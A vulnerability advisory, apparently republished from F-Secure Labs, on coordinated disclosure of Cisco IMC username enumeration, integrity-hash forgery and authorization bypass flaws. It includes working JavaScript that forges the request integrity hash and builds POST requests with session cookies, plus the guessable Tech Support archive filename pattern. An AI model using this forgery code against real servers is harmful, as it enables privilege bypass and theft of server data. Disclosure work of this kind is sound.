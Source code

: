 ```yaml
---
layout: post
title: 'Cisco IMC Server: Multiple Vulnerabilities'
excerpt: "Several vulnerabilities were discovered by F-Secure Consulting in the Cisco Integrated Management Controller (IMC) web application. The vulnerabilities combined can be leveraged to enumerate users and bypass authorisation controls.<br/><br/>"
categories:
  - "cve-advisory"
tags:
  - appsec
  - pentesting
  - cisco
  - "imc server"
last_modified_at: 2021-12-24T14:44:00
post-img: assets/img/cisco-xpand.jpeg
---
```


{% include note.html content="This advisory was originally published on [F-Secure LABS](https://labs.f-secure.com/advisories/cisco-imc-server-multiple-vulnerabilities/)" %}

| **Product** | Cisco IMC Server 4.0(4h) |
| **Severity** |<span style="color:orange">Medium</span> |
| **CVE IDs** |CVE-2020-26062, CVE-2020-26063 |
| **Type**	| Authorization Bypass, Username Enumeration |

<br/><br/>

{% include toc.html %}

## Introduction

Several vulnerabilities were discovered by F-Secure Consulting in the Cisco Integrated Management Controller (IMC) web application (CVE-2020-26062, CVE-2020-26063 and CSCvv07284). An example datasheet of the product can be found [here](https://www.cisco.com/c/en/us/products/collateral/servers-unified-computing/ucs-b-series-blade-servers/data_sheet_c78-728802.html).

The vulnerabilities combined can be leveraged to enumerate users and bypass authorisation controls. 


## Vulnerabilities Discovered

Three security issues were identified affecting the IMC application version 4.0(4h) and potentially other versions. The complete range of products affected can be found on the relevant Cisco Pages:

* Cisco Integrated Management Controller Software Username Enumeration Vulnerability<br/>[https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cimc-enum-CyheP3B7](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cimc-enum-CyheP3B7)

* Cisco Integrated Management Controller API Request Hash Modification<br/>[http://bst.cloudapps.cisco.com/bugsearch/bug/CSCvv07284](http://bst.cloudapps.cisco.com/bugsearch/bug/CSCvv07284)

* Cisco Integrated Management Controller Software Authorization Bypass Vulnerability<br/>[https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cimc-auth-zWkppJxL](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cimc-auth-zWkppJxL)


**Username Enumeration**
> CVE-2020-26062 - CVSSv3.1 Score: 5.3

The Username Enumeration vulnerability was discovered within the log in page of the IMC web interface. In its default configuration, there is no account lockout threshold enforced; offering the opportunity for an adversary to brute-force enumerated accounts.


**Integrity Hash Forgery**
> CCSCvv07284 - CVSSv3.1 Score: 3.1

Once authenticated to the application communications with the server consist of HTTP POST requests sent to a set of XML-based APIs. These API calls use an integrity protection scheme. User supplied parameter values are hashed and the resulting value is placed in the `CPSG_VAR HTTP` header. The hashing functionality is implemented in client-side JavaScript. 

The JavaScript hashing code was re-implemented in the form of an an HTML page. The source code is presented below:

```html
<html>
 <body>
   <head>
       <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/crypto-js.min.js"></script>   
       <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/hmac-sha256.min.js"></script>       
       <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/enc-base64.min.js"></script>  
   </head>

   <script>
     function invoke(){
       var sessionCookie = document.getElementById('sessionCookie').value
       var sessionID = document.getElementById('sessionID').value
       var queryStringURL = document.getElementById('queryString').value 
       var queryString = decodeURIComponent(decodeURIComponent(queryStringURL))
       var hash = hashFnv32(sessionID,queryString)      
       document.getElementById('output').innerHTML = hash
       document.getElementById('http').innerHTML = `
       POST /data HTTP/1.1<br>
       Host: <IPaddress><br>
       Referer: https://<IPaddress>/index.html<br>
       CSPG_VAR: ` + hash + `<br>
       Content-Type: application/x-www-form-urlencoded<br>
       Cookie: username=; sessionCookie=` + sessionCookie +`<br>
       Content-Length: 105<br><br>
       sessionID=`+sessionID+`&queryString=`+queryStringURL+`<br>`
    }

     function hashFnv32(a, b) {
           console.log("hashFnv32("+a+","+b+") called") 
           var d, e = 40389;
           var g = Math.floor(a.length / 4);
           for (d = 0; d < g; d++) e ^= a.charCodeAt(d), e += e << 1;
           a = e.toString();
           var ret = CryptoJS.HmacSHA512(b,a).toString()
           console.log("hashFnv32 returns "+ ret)
           return ret
      }
   </script>


   <form action="#">
     <p>sessionCookie</p>
     <input type="text" id="sessionCookie" />
     <p>sessionID</p>
     <input type="text" id="sessionID" />
     <p>queryString (double urlencoded)</p>
     <input type="text" id="queryString" />
     <input  type="button" value="Hash!" />
   </form>
   <div id="output"></div>
   <br><br>
   <div id="http"></div>
 </body>
</html>
```

The screenshot below illustrates its use to generate valid requests that will pass integrity checks.

![](/assets/img/cisco-imc-hash-forgery.png)


**Authorization Bypass**
> CVE-2020-26063 - CVSSv3.1 Score: 5.4

Authorisation checks were improperly configured and/or found to be missing on 2 of the IMC API endpoints. It is possible to forge a request using the Integrity Hash Forgery (CCSCvv07284) issue that results in the execution of functionality that is not normally available to some users, such as those with "read-only" roles, for example the "ping" and "set SSH server banner" functions.

The application also supports the generation of "Tech Support" archives by administrator users. The archives contain configuration files, detailed runtime logs and full directories from the server’s filesystem. If the filename can be 'guessed' it can be downloaded directly e.g. `/data/saveTechSupportWithHostname(<imc-hostname>-20200714-161002.tar.gz)`. The file is generated in a predictable format: `[IMC hostname]-[YYYYMMDD]-[HHMMSS].tar.gz`. Once the file is requested it is immediately deleted from the server, limiting the attacker’s window of opportunity. 


## Credit

The issues were discovered by Leonidas Tsaousis ([@laripping](https://twitter.com/laripping)) and Thomas Large of F-Secure Consulting.



## Timeline

| Date |	Summary |
| ---- |  ------- |
| 20/07/2020 | Issues disclosed to Cisco PSIRT | 
| 20/07/2020 | Cisco PSIRT acknowledged receipt of the report | 
| 05/08/2020 | Cisco triaged and reproduced the issues |
| 28/09/2020 | Confirmation of remediation plan, agreement of join disclosure date |
| 04/11/2020 | Joint disclosure by Cisco and F-Secure, Advisory released |
